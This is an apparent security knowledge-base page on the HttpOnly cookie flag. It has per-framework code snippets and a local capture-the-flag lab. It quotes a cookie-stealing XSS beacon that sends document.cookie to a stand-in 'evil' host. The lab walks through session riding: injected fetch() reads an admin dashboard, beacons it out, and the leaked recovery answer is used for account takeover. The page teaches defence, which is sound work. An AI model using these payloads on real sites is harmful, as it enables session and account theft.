

<!--
  Translation bar (added in the translation phase - D1/D10):
  English (this file)
-->

# HttpOnly Cookie Flag

`Defense: HttpOnly cookie attribute` · Web Vulnerability Knowledge Base

## Summary

The `HttpOnly` attribute on a `Set-Cookie` response tells the browser to hide that
cookie from JavaScript. `document.cookie` cannot read it, so the most common way to
steal a session through XSS, beaconing `document.cookie` to an attacker, stops
working. It is a high-value, one-line defense, but it is defense-in-depth: it does
not fix XSS, and it does not stop an attacker from riding the session in other ways.

## What it protects against

Session and cookie theft through cross-site scripting. With a non-HttpOnly cookie,
any injected script can run `new Image().src = '//evil/?c=' + document.cookie` and
hand the victim's session to the attacker. HttpOnly removes that read path.

## How it works

A cookie set with `HttpOnly` is stored by the browser and still sent on matching
requests, but it is excluded from the `document.cookie` API and other script access:

- Script CAN still execute (HttpOnly is not an XSS fix).
- Script CANNOT read the cookie value.
- The browser STILL attaches the cookie to same-origin requests, so the session
  keeps working for the user, and also for injected script that makes requests on
  the user's behalf.

## Mechanism



1. XSS executes in the victim's (admin's) browser.
2. `document.cookie` returns everything except the HttpOnly cookie: the steal fails.
3. A same-origin `fetch()` still carries the HttpOnly cookie automatically, so
   injected script can read admin-only responses (session riding).

## Enable it

Setting the session cookie **without** (left) and **with** (right) `HttpOnly`.

<details open><summary><b>Python (Flask)</b></summary>

**Without**
```python
resp.set_cookie('session', token)  # readable by document.cookie
```
**With**
```python
resp.set_cookie('session', token, httponly=True, secure=True, samesite='Lax')
```
Docs: https://flask.palletsprojects.com/en/stable/api/#flask.Response.set_cookie
</details>

<details><summary><b>JavaScript (Express)</b></summary>

**Without**
```javascript
res.cookie('session', token);
```
**With**
```javascript
res.cookie('session', token, { httpOnly: true, secure: true, sameSite: 'lax' });
```
Docs: https://expressjs.com/en/api.html#res.cookie
</details>

<details><summary><b>TypeScript (Express)</b></summary>

**Without**
```typescript
res.cookie('session', token);
```
**With**
```typescript
import { CookieOptions } from 'express';
const opts: CookieOptions = { httpOnly: true, secure: true, sameSite: 'lax' };
res.cookie('session', token, opts);
```
Docs: https://expressjs.com/en/api.html#res.cookie
</details>

<details><summary><b>PHP</b></summary>

**Without**
```php
setcookie('session', $token);
```
**With**
```php
setcookie('session', $token, ['httponly' => true, 'secure' => true, 'samesite' => 'Lax']);
```
Docs: https://www.php.net/manual/en/function.setcookie.php
</details>

<details><summary><b>Java (Servlet)</b></summary>

**Without**
```java
Cookie c = new Cookie("session", token);
response.addCookie(c);
```
**With**
```java
Cookie c = new Cookie("session", token);
c.setHttpOnly(true);
c.setSecure(true);
response.addCookie(c);
```
Docs: https://jakarta.ee/specifications/servlet/5.0/apidocs/jakarta/servlet/http/cookie
</details>

<details><summary><b>Ruby (Rails / Rack)</b></summary>

**Without**
```ruby
cookies[:session] = token
```
**With**
```ruby
cookies[:session] = { value: token, httponly: true, secure: true, same_site: :lax }
```
Docs: https://api.rubyonrails.org/classes/ActionDispatch/Cookies.html
</details>

<details><summary><b>Go</b></summary>

**Without**
```go
http.SetCookie(w, &http.Cookie{Name: "session", Value: token})
```
**With**
```go
http.SetCookie(w, &http.Cookie{
    Name: "session", Value: token,
    HttpOnly: true, Secure: true, SameSite: http.SameSiteLaxMode,
})
```
Docs: https://pkg.go.dev/net/http#Cookie
</details>

<details><summary><b>C# (ASP.NET Core)</b></summary>

**Without**
```csharp
Response.Cookies.Append("session", token);
```
**With**
```csharp
Response.Cookies.Append("session", token, new CookieOptions {
    HttpOnly = true, Secure = true, SameSite = SameSiteMode.Lax,
});
```
Docs: https://learn.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.http.cookieoptions
</details>

## Demonstration lab

The lab in [`lab/`](lab/) serves the same reflected XSS as the vulnerability lab,
but the admin bot's `session` cookie is HttpOnly (a decoy `theme` cookie is not).

```bash
cd lab
docker compose up --build      # build once, then runs offline
# open http://127.0.0.1:8000
```

Try the classic `document.cookie` beacon and report it: on `/loot` you see only
`theme=dark`, never the session. That is HttpOnly working, the cookie steal fails.

Now ride the session. Inject `fetch('/dashboard')...` so the admin's browser (which
auto-sends the HttpOnly cookie) returns the authenticated dashboard HTML, then
beacon it to your collector. The captured HTML (visible in `/loot`) contains the
account's security question and its **secret answer**.

The dashboard is linked from the lab page. Its login form needs the admin password
(you do not have it), but the **account recovery** form only asks the security
question. Paste the captured secret answer there to log in (the session is stored
as an HttpOnly Cookie), and view the admin page yourself. That secret answer is
also the flag.

## Limitations (what it does not stop)

- It does not fix XSS. Encode output to stop the injection in the first place.
- Session riding: injected script can still call authenticated endpoints through the
  victim's browser, as the lab demonstrates.
- Use HttpOnly together with output encoding, a Content-Security-Policy, and the
  `Secure` and `SameSite` cookie attributes.

## References

- OWASP - HttpOnly: https://owasp.org/www-community/HttpOnly
- MDN - Set-Cookie HttpOnly: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#httponly
- OWASP - Cross Site Scripting (XSS): https://owasp.org/www-community/attacks/xss/
